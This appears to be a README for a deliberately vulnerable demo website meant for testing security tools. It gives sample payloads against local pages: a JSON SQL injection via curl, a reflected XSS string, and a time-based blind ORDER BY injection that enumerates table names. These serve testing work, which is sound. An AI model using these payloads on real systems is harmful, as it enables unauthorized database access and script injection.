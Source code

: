 创建此仓库是为了测试安全工具开发而写的存在漏洞的demo网站

payload:

SQL注入支持json，post，get传参where注入

json curl：

curl http://127.0.0.1/sqlinjection.php -X POST -H "application/json" -d '{"id":"1"}' --proxy http://127.0.0.1:8080

xss

http://127.0.0.1/xss.php?name=\&age=-alert(1)//

order by注入

select * from user ORDER BY id,if((select (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=(SELECT DATABASE()) limit 1),1,1)='u')),sleep(1),0)

http://127.0.0.1/orderby.php?orderby=,if((select%20(SUBSTR((SELECT%20table_name%20FROM%20information_schema.TABLES%20WHERE%20table_schema=(SELECT%20DATABASE())%20limit%201),1,1)=%27u%27)),sleep(1),0)

